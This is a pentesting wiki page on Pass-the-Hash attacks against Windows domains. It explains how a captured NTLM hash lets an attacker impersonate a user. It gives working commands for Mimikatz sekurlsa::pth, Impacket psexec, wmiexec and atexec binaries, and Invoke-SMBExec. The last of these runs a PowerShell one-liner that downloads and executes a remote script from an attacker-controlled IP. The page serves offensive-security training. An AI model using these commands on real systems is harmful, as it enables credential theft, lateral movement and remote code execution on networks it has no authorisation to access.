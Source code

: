 ## Pass-the-Hash

**Once you have the hash of the victim**, you can use it to **impersonate** it.  
You need to use a **tool** that will **perform** the **NTLM authentication using** that **hash**, **or** you could create a new **sessionlogon** and **inject** that **hash** inside the **LSASS**, so when any **NTLM authentication is performed**, that **hash will be used.** The last option is what mimikatz does.

**Please, remember that you can perform Pass-the-Hash attacks also using Computer accounts.**

### **Mimikatz**

**Needs to be run as administrator**

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 
```

This will launch a process that will belongs to the users that have launch mimikatz but internally in LSASS the saved credentials are the ones inside the mimikatz parameters. Then, you can access to network resources as if you where that user \(similar to the `runas /netonly` trick but you don't need to know the plain-text password\).

### Pass-the-Hash from linux

You can obtain code execution in Windows machines using Pass-the-Hash from Linux.   
[**Access here to learn how to do it.**](../../pentesting/pentesting-smb.md#execute)\*\*\*\*

### Impacket Windows compiled tools

You can download[ impacket binaries for Windows here](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** \(In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell\)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* There are several more Impacket binaries...

### Invoke-TheHash

You can get the powershell scripts from here: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec

```text
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
